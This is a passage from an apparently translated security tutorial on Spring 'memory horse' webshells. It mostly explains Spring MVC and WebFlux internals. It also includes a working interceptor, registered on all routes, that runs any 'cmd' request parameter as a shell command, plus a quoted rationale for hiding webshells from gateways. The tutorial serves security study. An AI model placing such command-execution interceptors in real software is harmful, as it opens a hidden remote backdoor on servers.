Wait for the dependency resolution to complete:


Here is an example for us, we can run directly:


### 2.10.1 Write a simple Spring Controller

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class TestController {
    @ResponseBody
    @RequestMapping("/")
    public String test(){
        return "hello world";
    }
}
```

Very simple:


### 2.10.2 Write a simple Spring Interceptor

`TestInterceptor.java`：

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```

`WebConfig.java`：

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class WebConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(new TestInterceptor()).addPathPatterns("/**");
    }
}
```

`Controller` is the `TestController.java` written before. After running, access `http://127.0.0.1:8080/?cmd=whoami`:


### 2.10.3 Write a simple Spring WebFlux Demo (based on Netty)

Let’s first talk about how to write a `Demo` of the `Spring WebFlux` framework by yourself.

Here we create a new `SpringBoot` project and name it `WebFluxMemoryShellDemo`:


Select `Spring Reactive Web` here:


Then create two new files. For convenience, I put these two files in the `hello` folder.

`GreetingHandler.java`：

```java
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.MediaType;
import org.springframework.stereotype.Component;
import org.springframework.web.reactive.function.BodyInserters;
import org.springframework.web.reactive.function.server.ServerRequest;
import org.springframework.web.reactive.function.server.ServerResponse;
import reactor.core.publisher.Mono;

@Component
public class GreetingHandler {
    public Mono<ServerResponse> hello(ServerRequest request) {
        return ServerResponse.ok().contentType(MediaType.TEXT_PLAIN).body(BodyInserters.fromValue("Hello, Spring!"));
    }
}
```

`GreetingRouter.java`：

```java
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.MediaType;
import org.springframework.web.reactive.function.server.*;

@Configuration
public class GreetingRouter {
    @Bean
    public RouterFunction<ServerResponse> route(GreetingHandler greetingHandler) {
        return RouterFunctions.route(RequestPredicates.GET("/hello").and(RequestPredicates.accept(MediaType.TEXT_PLAIN)), greetingHandler::hello);
    }
}
```

We can create a new `main/resources` folder, then create a new `application.properties`, and control the port of the `netty` service through `server.port`:


Then we run:


Here I found a project from github, which can also help us understand how this framework is used, using `Netty`+`SpringWebFlux`:

> https://github.com/Java-Techie-jt/springboot-webflux-demo


Access any route. For example `http://127.0.0.1:9191/customers/stream`:


## 2.11 Spring MVC Introduction

If you want to have an in-depth understanding of the `Spring MVC` framework-type memory horse, then it is very necessary to understand the basic understanding of `Spring MVC`. This section will briefly talk to you about this framework from the source code level.

First, I will quote a picture from "Spring in Action" (I remake it here) to understand the core components and general processing flow of `Spring MVC` (but I didn't seem to have found this picture in the fifth edition of the book. If you find it, you can send a private message to me in the background of the official account):


You can see that there are a bunch of nouns here, let’s take a look one by one:

- `DispatcherServlet` is a front-end controller, which is responsible for receiving `Request` and forwarding `Request` to the corresponding processing component;
- `HandlerMapping` is responsible for completing the `url` to `Controller` mapping, and you can find the corresponding `Controller` that handles `Request`;
- `Controller` processes `Request` and returns `ModelAndVIew` object, `ModelAndView` is a component that encapsulates the result view;
- ④~⑦ means that the view parser parses the `ModelAndView` object and returns the corresponding view to the client.

There is another concept that needs to be understood, which is the `IOC` container, because this noun will be mentioned later in this article.

`IOC` (Control Inversion) containers are one of the core concepts of the Spring framework. Its basic idea is to reverse control of objects such as creation, assembly, and management from application code to containers, so that application components do not need to directly manage their dependencies.The `IOC` container is mainly responsible for object creation, dependency injection, life cycle management and configuration management. The `Spring` framework provides a variety of ways to implement `IOC` containers. The following are two common ones:

- BeanFactory: Spring's most basic `IOC` container, which provides basic `IOC` functionality, and objects are created only on the first request.

- `ApplicationContext`: This is an extension of `BeanFactory` that provides more enterprise-level features. `ApplicationContext` preloads and initializes all singleton objects when the container starts, which provides faster access speeds.

### 2.11.1 Spring MVC nine components

These nine components need to have an impression:

`DispatcherServlet` (distribute `Servlet`): Responsible for distributing requests to other components, and is the core of the entire `Spring MVC` process;
`HandlerMapping` (processor mapping): the processor used to determine the request (`Controller`);
`HandlerAdapter` (processor adapter): Map requests to appropriate processor methods, responsible for executing processor methods;
`HandlerInterceptor` (processor interceptor): allows interception and intervention on the processor's execution process;
`Controller` (controller): Process user requests and return appropriate models and views;
`ModelAndView` (model and view): encapsulates the execution results of the processor method, including model data and view information;
`ViewResolver` (view resolver): used to resolve logical view names into specific view objects;
`LocaleResolver` (region parser): handles regional information for internationalization;
`ThemeResolver` (theme parser): used to parse the theme of the `Web` application and realize the switching of interface themes.

### 2.11.2 Simple source code analysis

#### 2.11.2.1 Initialization of nine components

First, find `org.springframework.web.servlet.DispatcherServlet`, and you can see that there are many component definitions and initialization functions and some other functions:


But without the `init()` function, when we look at the parent class `org.springframework.web.servlet.HttpServletBean` of its parent class `FrameworkServlet`, we found that there is an `init` function:rvletBean` of its parent class `FrameworkServlet`, we found that there is an `init` function:


The code is as follows:

```java
@Override
public final void init() throws ServletException {

    // Set bean properties from init parameters.
    PropertyValues pvs = new ServletConfigPropertyValues(getServletConfig(), this.requiredProperties);
    if (!pvs.isEmpty()) {
        try {
            BeanWrapper bw = PropertyAccessorFactory.forBeanPropertyAccess(this);
            ResourceLoader resourceLoader = new ServletContextResourceLoader(getServletContext());
            bw.registerCustomEditor(Resource.class, new ResourceEditor(resourceLoader, getEnvironment()));
            initBeanWrapper(bw);
            bw.setPropertyValues(pvs, true);
        }
        catch (BeansException ex) {
            if (logger.isErrorEnabled()) {
                logger.error("Failed to set bean properties on servlet '" + getServletName() + "'", ex);
            }
            throw ex;
        }
    }

    // Let subclasses do whatever initialization they like.
    initServletBean();
}
```

First, we get the initialization parameters from the Servlet configuration and create a `PropertyValues` object, and then set the `Bean` property; the key is initServletBean` method is called.

After we clicked in, we found that the function did not write anything, which means that it should be a subclass inheritance `override` method:


Sure enough, we successfully found the method in `org.springframework.web.servlet.FrameworkServlet`:


The code is as follows:

```java
@Override
protected final void initServletBean() throws ServletException {
    getServletContext().log("Initializing Spring " + getClass().getSimpleName() + " '" + getServletName() + "'");
    if (logger.isInfoEnabled()) {
        logger.info("Initializing Servlet '" + getServletName() + "'");
    }
    long startTime = System.currentTimeMillis();

    try {
        this.webApplicationContext = initWebApplicationContext();
        initFrameworkServlet();
    }
    catch (ServletException | RuntimeException ex) {
        logger.error("Context initialization failed", ex);
        throw ex;
    }

    if (logger.isDebugEnabled()) {
        String value = this.enableLoggingRequestDetails ?
                "shown which may lead to unsafe logging of potentially sensitive data" :
                "masked to prevent unsafe logging of potentially sensitive data";
        logger.debug("enableLoggingRequestDetails='" + this.enableLoggingRequestDetails +
                "': request parameters and headers will be " + value);
    }

    if (logger.isInfoEnabled()) {
        logger.info("Completed initialization in " + (System.currentTimeMillis() - startTime) + " ms");
    }
}
```

I won’t talk about the `log` and timing part of this code, let’s talk about it with the key points.It first calls the `initWebApplicationContext` method and initializes the `IOC` container. During the initialization process, this `onRefresh` method will be called. Generally speaking, this method is a callback method called after the container refresh is completed. It performs some tasks that need to be completed immediately after the application is started:


Follow this method and you can see that the default is empty:


It means that there should be `override` in its subclass. Sure enough, we have located the `org.springframework.web.servlet.DispatcherServlet#` method:


This immediately became clear. These are not the nine components we mentioned before. At this point, the initialization of the nine components of Spring MVC is completed.

#### 2.11.2.2 Establishment of the relationship between url and controller

You may have a question like this: we use `@RequestMapping("/")` to annotate on the method. How does `Spring MVC` associate the corresponding request with this method based on this annotation?

From the initialization of the nine components above, we can see that there is a method called `initHandlerMappings`. Let's click in and take a look at it in detail:


This code and the included annotations are also easy to understand and are divided into two parts. The first part is to find all classes that implement the `HandlerMappings` interface in `ApplicationContext` (including `ancestor contexts`). If at least one `HandlerMapping bean` that meets the conditions is found, then convert its value into a list, and sort them according to the Java default sorting mechanism. Finally, assign the sorted list to `this.handlerMappings`; if not found, `this.handlerMappings` will remain as `null`; if no handler mapping is needed, try to get the `bean` named `handlerMapping` from `ApplicationContext`, and if it is successfully obtained, assign it to a list of single elements to `this.handlerMappings`, if the acquisition fails, it doesn't matter, because the comments are very clear and a default `HandlerMapping` will be added, which is the code for the second part we are going to talk about.

The second part says that if the previous set of operations is still `null`, then the `getDefaultStrategies` method is called to get the default `HandlerMapping` and assign it to `this.handlerMappings`.

If you look at it this way, the method `org.springframework.web.servlet.DispatcherServlet#getDefaultStrategies` is quite critical. Let's click in and take a look:



This code is quite interesting. First, it loads the resource file and stores its contents in `defaultStrategies` in the form of attribute key-value pairs; then gets a name from `strategyInterface`, and then uses this name to find the corresponding value in `defaultStrategies`. If it is found, it separates the value into a class name array by comma, then iterates over the class name array, and performs the following two operations for each class name: ① Try to load the class through the `ClassUtils.forName` method ② Create an instance of the class using the `createDefaultStrategy` method; finally add the created policy object to the list `strategies` and return.

Then I'm very curious, what's in `DEFAULT_STRATEGIES_PATH` in this code? `Ctrl+left key` tracking:


It turned out to be a file named `DispatcherServlet.properties`. We can quickly flip it into the dependency list on the left, because it should be with `DispatcherServlet.java`:


From the file content, we can quickly lock in key information:

```properties
org.springframework.web.servlet.HandlerMapping=org.springframework.web.servlet.handler.BeanNameUrlHandlerMapping,\
    org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping,\
    org.springframework.web.servlet.function.support.RouterFunctionMapping
```

In other words, there will be three values, namely `BeanNameUrlHandlerMapping`, `RequestMappingHandlerMapping` and `RouterFunctionMapping`. We usually use the second one. Let's click on `org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping` to take a look:


Its parent class `RequestMappingInfoHandlerMapping`'s parent class `AbstractHandlerMethodMapping` implements the `InitializingBean` interface, which is used to execute some specific custom initialization logic after the `bean` initialization is completed.


Clicking into this interface, there is only one `afterPropertiesSet` method. For the purpose of this method, please refer to `https://www.python100.com/html/U711CO7MV79C.html`:


Then let's take a look at the `AbstractHandlerMethodMapping` which implements the `afterPropertiesSet` of `InitializingBean`:


The rewritten is also very simple. Call the `initHandlerMethods` method and continue to track the method:


The comments are very clear: scan the bean in the ApplicationContext, and then detect and register the handler methods.

We set a breakpoint here in `org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#initHandlerMethods` for debugging. After this step in the figure, `step into`:


Let's look at the specific logic of the method `org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#processCandidateBean`:


We are naturally very curious here. This `isHandler` is a judgment. Let's click in and take a look:


As you can see, no implementation is given here, indicating that `override` should be given in the subclass, so you directly find `org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#isHandler`:


Obviously, the `isHandler` is used to detect whether the given `beanType` class has a `Controller` annotation or a `RequestMapping` annotation.

After solving this, continue to look back. The method `detectHandlerMethods` is called. Let's click in and take a look:


Let's look at it separately. First, this line of code is written in a comprehensive way, which means that you first determine whether the `handler` is a string type. If so, you can get its type through `ApplicationContext`; otherwise, you can directly get the type of `handler`. :

```java
Class<?> handlerType = (handler instanceof String ?
            obtainApplicationContext().getType((String) handler) : handler.getClass());
```

Then here is this part:

```java
Class<?> userType = ClassUtils.getUserClass(handlerType);
Map<Method, T> methods = MethodIntrospector.selectMethods(userType,
        (MethodIntrospector.MetadataLookup<T>) method -> {
            try {
                return getMappingForMethod(method, userType);
            }
            catch (Throwable ex) {
                throw new IllegalStateException("Invalid mapping on handler class [" +
                        userType.getName() + "]: " + method, ex);
            }
        });
```

First, we get the user class of the processor. The user class is a class that is not wrapped by a proxy, so that we can ensure that the class that is actually processing the request is obtained; then there is the `selectMethods` method. This method has two parameters. The first parameter is the user class and the second parameter is a callback function. The key is to understand the role of this callback function. For each method, it tries to call `getMappingForMethod` to get the mapping information of the method.

We clicked on this method and found that it is an abstract method:


Then let’s see if there is a corresponding implementation in its subclass, and directly locate it at `org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#getMappingForMethod`:


We debug the breakpoint at the location shown in the figure below:


Let's look at it separately, first line:

```java
RequestMappingInfo info = createRequestMappingInfo(method);
```

Analyze the annotations in the method of the `Controller` class to generate a corresponding `RequestMappingInfo` object. We can `step into``org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#createRequestMappingInfo(java.lang.reflect.AnnotatedElement)` method:


You can see that the url pattern in this `info` saves the url pattern` of accessing the method is `"/"`, which is what we want to see in `TestController.java` when `@RequestMapping("/")`, call the `test` method.

Continue to go down step by step and you can see that you have reached the end of `org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#detectHandlerMethods`:


Look directly at the contents of the `lambda` expression:

```java
Method invocableMethod = AopUtils.selectInvocableMethod(method, userType);
registerHandlerMethod(handler, invocableMethod, mapping);
```

It means that first selectInvocableMethod method to select a callable method based on the method and `userType`, in order to deal with possible proxy and `AOP` situations, ensure that the original method that can be called directly is obtained; then register the `bean`, `Method` and `RequestMappingInfo` into the `MappingRegistry`.


At this point, the problem of how the relationship between `url` and `Controller` is established is solved.

#### 2.11.2.3 Spring Interceptor introduction and execution process analysis

We can consider this issue when we review the idea of ​​`Controller` that we talked about before and the `Controller` memory horse shown in Section 4.1 below:

> With the iterative evolution of microservice deployment technology, large business systems will pass through some series of gateways, complex balances, and firewalls when they arrive at real application servers. So if your new `shell` route is not on the whitelist of these gateways, it is very likely that it will not be accessible and will be discarded before reaching the application server.The purpose we want to achieve is to be able to execute our code before accessing a normal business address. Therefore, when injecting `java` memory horse, try not to use new routes to specifically process the `webshell` logic we injected. It is best to process our `webshell` logic in advance before every request reaches the real business logic. Under the `tomcat` container, there are `filter`, `listener` and other technologies that can meet the above requirements. So at the `spring` framework level, is there a way to achieve the effect mentioned above?      ——Excerpt from`https://github.com/Y4tacker/JavaSec/blob/main/5.内存马学习/Spring/利用intercetor注入Spring内存马/andndex.md`and`https://landgrey.me/blog/19/`

The answer is of course there is, and this is what we are going to talk about, an interceptor mechanism in the `Spring` framework.

Then I can’t help but ask: What is the difference between this `Spring Interceptor` and the `Filter` we mentioned before?

> reference:https://developer.aliyun.com/article/925400

There are mainly six aspects:

| Key differences                | Interceptor                                                   | Filter                      |
| ------------------------ | -------------------------------------------------------- | --------------------------- |
| mechanism                     | `Java` reflection mechanism                                           | Function callback                    |
| Whether to rely on `Servlet` container    | Not dependent                                                   | rely                        |
| Range of action                 | Works on `action` request                                     | Works on almost all requests        |
| Is the context and value stack accessible?xt and value stack accessible? | Available to access                                                 | Not accessible                    |
| Number of calls                 | Can be called multiple times                                           | It is called only once when the container is initialized  |
| Access in the `IOC` container        | You can get the individual beans in the `IOC` container (based on the `FactoryBean` interface) | Cannot get `bean` in `IOC` container |

We give a breakpoint in the `TestInterceptor.java` function of `2.10.2` section, and then visit `http://127.0.0.1:8080/?cmd=whoami` to enter debugging:


After stepping into debugging step by step, I found that the method to enter `org.springframework.web.servlet.DispatcherServlet#doDispatch`:


We breakpoint at the first line of the `doDispatch` method and revisit the page debugging:


I saw that the function `getHandler` was called, and its comments were written in a simple and easy-to-understand way: determine the `handler` that handles the current request, let's take a look at it `step into`:


By traversing the `handler` object in the current `handlerMapping` array, we can determine which `handler` handles the current `request` object:



Continue to enter the `mapping.getHandler` method used in this function, that is, `org.springframework.web.servlet.handler.AbstractHandlerMapping#getHandler`:



The code is simple and easy to understand. First, it is obtained through `getHandlerInternal`. If it cannot be obtained, then call `getDefaultHandler` to get the default. If it still cannot be obtained, it will directly return `null`; then check whether the `handler` is a string. If it is, it means that it may be a `Bean` name. In this way, the `ApplicationContext` object of the corresponding name is obtained, so that the `handler` object will eventually be a legal processor object; then check whether there is a cached request path, and if there is no cache, call the `initLookupPath(request)` method to initialize the search for the request path; finally create a processor execution chain through the `getHandlerExecutionChain` method.

From this point of view, this `getHandlerExecutionChain` method is very important. Let's take a look:


Traversing the `adaptedInterceptors` to determine whether the interceptor is of the `MappedInterceptor` type. If so, it depends on whether the `MappedInterceptor` matches the current request. If so, add its actual interceptor to the execution chain. If it is not of this type, add the interceptor to the execution chain directly.

Let's go back to the previous `getHandler` method and take a look at its second half:


It mainly deals with cross-domain resource sharing (`CORS`). You only need to know that when `CORS` is involved, `executionChain`, and `CORS` configurations are encapsulated and returned through `getCorsHandlerExecutionChain`.

Step by step, go back to the `getHandler` at the beginning. Here we call the `org.springframework.web.servlet.HandlerExecutionChain#applyPreHandle` method to traverse all interceptors for preprocessing. There is basically no need to understand the following code:


## 2.12 Introduction to Spring WebFlux and code debugging analysis

`SpringWebFlux` is a new responsive `web` framework introduced in `Spring Framework 5.0`. The traditional Spring MVC is blocking when processing requests, that is, each request will occupy a thread. If a large number of requests arrive at the same time, a large number of threads are required to process, which may lead to resource exhaustion. To solve this problem, WebFlux introduces a non-blocking responsive programming model. By using asynchronous non-blocking methods to handle requests, it can more efficiently support a large number of concurrent requests and improve the system's throughput; and it can easily handle long connections and WebSockets, which is suitable for application scenarios that need to keep connections, such as real-time communication and push services; in the microservice architecture, communication between services often requires efficient processing, and WebFlux can better adapt to the needs of such asynchronous communication.

For related knowledge about `Reactive` and `Spring WebFlux`, you can refer to this article on Zhihu. It is easy to understand and thorough:

> https://zhuanlan.zhihu.com/p/559158740

The interface return type developed by the `WebFlux` framework must be `Mono<T>` or `Flux<T>`. So the first thing we need to know is what is `Mono` and what is `Flux`.

### 2.12.1 What is Mono?

`Mono` is used to represent an asynchronous sequence containing `0` or `1` elements. It is an asynchronous, composable, and capable of handling asynchronous data streams. For example, when we initiate an asynchronous database query, network call, or other asynchronous operation, the results of the operation can be wrapped in `Mono`, which allows us to process the asynchronous results responsively, rather than blocking the thread and waiting for the result to return, as we saw in the `gif` diagram in `2.10.3`.

Let's take a look at the commonly used `Mono`api`:

|                             API                              |                             illustrate                             |                           Code description例                           |
| :----------------------------------------------------------: | :----------------------------------------------------------: | :----------------------------------------------------------: |
|                     `Mono.just(T data)`                      |               Creates a `Mono` containing the specified data.                |       `Mono<String> mono = Mono.just("Hello, Mono!");`       |
|                        `Mono.empty()`                        |                    Create an empty `Mono`.                     |           `Mono<Object> emptyMono = Mono.empty();`           |
|                `Mono.error(Throwable error)`                 |                 Create a `Mono` containing the error.                  | `Mono<Object> errorMono = Mono.error(new RuntimeException("Something went wrong"));` |
|          `Mono.fromCallable(Callable<T> supplier)`           |    Create `Mono` from Callable, indicating an asynchronous operation that may throw an exception.     | `Mono<String> resultMono = Mono.fromCallable(() -> expensiveOperation());` |
|            `Mono.fromRunnable(Runnable runnable)`            |     Create `Mono` from Runnable, indicating an asynchronous operation without a return value.      | `Mono<Void> runnableMono = Mono.fromRunnable(() -> performAsyncTask());` |
|                 `Mono.delay(Duration delay)`                 |             Create an empty `Mono` after the specified delay.              | `Mono<Object> delayedMono = Mono.delay(Duration.ofSeconds(2)).then(Mono.just("Delayed Result"));` |
| `Mono.defer(Supplier<? extends Mono<? extends T>> supplier)` |        Delay creation of `Mono` and the vendor method is not called until the subscription is subscribed.         | `Mono<String> deferredMono = Mono.defer(() -> Mono.just("Deferred Result"));` |
| `Mono.whenDelayError(Iterable<? extends Mono<? extends T>> monos)` | Merge a group of `Mono` into a `Mono`, and when one of them goes wrong, continue to wait for the others to complete. | `Mono<String> resultMono = Mono.whenDelayError(Arrays.asList(mono1, mono2, mono3));` |
|   `Mono.map(Function<? super T, ? extends V> transformer)`   |                Map elements in `Mono`.                 |   `Mono<Integer> resultMono = mono.map(s -> s.length());`    |
| `Mono.flatMap(Function<? super T, ? extends Mono<? extends V>> transformer)` |               Asynchronously map elements in `Mono`.               | `Mono<Integer> resultMono = mono.flatMap(s -> Mono.just(s.length()));` |
|          `Mono.filter(Predicate<? super T> tester)`          |                   Filter elements in `Mono`.                    | `Mono<String> filteredMono = mono.filter(s -> s.length() > 5);` |
|             `Mono.defaultIfEmpty(T defaultVal)`              |               If `Mono` is empty, the default value is used.               | `Mono<String> resultMono = mono.defaultIfEmpty("Default Value");` |
| `Mono.onErrorResume(Function<? super Throwable, ? extends Mono<? extends T>> fallback)` |             Provides an alternate `Mono` when an error occurs.              | `Mono<String> resultMono = mono.onErrorResume(e -> Mono.just("Fallback Value"));` |
|        `Mono.doOnNext(Consumer<? super T> consumer)`         |               Perform an action on success, but do not change the element.               | `Mono<String> resultMono = mono.doOnNext(s -> System.out.println("Received: " + s));` |
|    `Mono.doOnError(Consumer<? super Throwable> onError)`     |                    Perform an action when an error occurs.                    | `Mono<String> resultMono = mono.doOnError(e -> System.err.println("Error: " + e.getMessage()));` |
|        `Mono.doFinally(Consumer<SignalType> action)`         |                 Perform actions regardless of success or error.                 | `Mono<String> resultMono = mono.doFinally(signal -> System.out.println("Processing finished: " + signal));` |

### 2.12.2 What is Flux?

`Flux` represents an asynchronous sequence of `0` to `N` elements, which can be published one by one or batch by batch in an asynchronous manner according to time. That is, `Flux` allows the process of processing elements without having to wait for all elements to be ready, but can be pushed to subscribers immediately when they are ready. This asynchronous push method allows programs to handle the generation and consumption of elements more flexibly without blocking the execution thread.

Here are the commonly used `Flux`api`:

|           API           |                   illustrate                   |                           Code Example                           |
| :---------------------: | :--------------------------------------: | :----------------------------------------------------------: |
|     **`Flux.just`**     |         Create a `Flux` containing the specified element         |       `Flux<String> flux = Flux.just("A", "B", "C");`        |
| **`Flux.fromIterable`** |          Create `Flux` from `Iterable`          | `List<String> list = Arrays.asList("A", "B", "C");`<br>`Flux<String> flux = Flux.fromIterable(list);` |
|  **`Flux.fromArray`**   |             Create `Flux` from an array             | `String[] array = {"A", "B", "C"};`<br>`Flux<String> flux = Flux.fromArray(array);` |
|    **`Flux.empty`**     |            Create an empty `Flux`            |           `Flux<Object> emptyFlux = Flux.empty();`           |
|    **`Flux.error`**     |         Create a `Flux` containing errors         | `Flux<Object> errorFlux = Flux.error(new RuntimeException("Something went wrong"));` |
|    **`Flux.range`**     |    Creates a `Flux` containing a sequence of integers with a specified range    |        `Flux<Integer> rangeFlux = Flux.range(1, 5);`         |
|   **`Flux.interval`**   |      Creates a `Flux` containing elements with a certain interval      | `Flux<Long> intervalFlux = Flux.interval(Duration.ofSeconds(1)).take(5);` |
|    **`Flux.merge`**     |    Merge multiple Fluxes and interleave elements in chronological order    | `Flux<String> flux1 = Flux.just("A", "B");`<br>`Flux<String> flux2 = Flux.just("C", "D");`<br>`Flux<String> mergedFlux = Flux.merge(flux1, flux2);` |
|    **`Flux.concat`**    |     Connect multiple `Flux` and publish elements in order     | `Flux<String> flux1 = Flux.just("A", "B");`<br>`Flux<String> flux2 = Flux.just("C", "D");`<br>`Flux<String> concatenatedFlux = Flux.concat(flux1, flux2);` |
|     **`Flux.zip`**      | Pair multiple `Flux` elements to generate `Tuple`  | `Flux<String> flux1 = Flux.just("A", "B");`<br>`Flux<String> flux2 = Flux.just("1", "2");`<br>`Flux<Tuple2<String, String>> zippedFlux = Flux.zip(flux1, flux2);` |
|    **`Flux.filter`**    |            Filter elements that meet the criteria            | `Flux<Integer> numbers = Flux.range(1, 5);`<br>`Flux<Integer> filteredFlux = numbers.filter(n -> n % 2 == 0);` |
|     **`Flux.map`**      |             Convert the value of each element             | `Flux<String> words = Flux.just("apple", "banana", "cherry");`<br>`Flux<Integer> wordLengths = words.map(String::length);` |
|   **`Flux.flatMap`**    | Map each element to a `Flux` and til the result flat | `Flux<String> letters = Flux.just("A", "B", "C");`<br>`Flux<String> flatMappedFlux = letters.flatMap(letter -> Flux.just(letter, letter.toLowerCase()));` |

### 2.12.3 Spring WebFlux startup process analysis

I originally wanted to use text to talk about the difference between `Spring MVC` and `Spring WebFlux`, but this has been talked about by the few existing articles on `WebFlux` on the Internet. You can search for it casually. The superficial things are purely a waste of time. So we look at the code and dig deep into the calling process of `WebFlux`. From this, we can naturally find similarities and differences between the two in the calling process.

We directly set a breakpoint in the `run` method, and then directly `step into`:


After step over, we can see that the method `org.springframework.boot.SpringApplication#createApplicationContext` is called (the previous methods are not important, just skip them):


This method just listens to the name `createApplicationContext`, which is very important because it literally means creating `ApplicationContext`, which is exactly what we are interested in. Let's go in and take a look:


It can be seen that different `contexts are selected according to different `webApplicationType`, for example, our `webApplicationType` is `REACTIVE`, which is responsive.

Our `step into` here `create` method:


It was found that there are two static methods, a `create` method and a default implementation `DEFAULT`. This default implementation creates the corresponding context by loading all candidate implementations of `ApplicationContextFactory`; if no suitable implementation is found, a `AnnotationConfigApplicationContext` instance is returned by default.

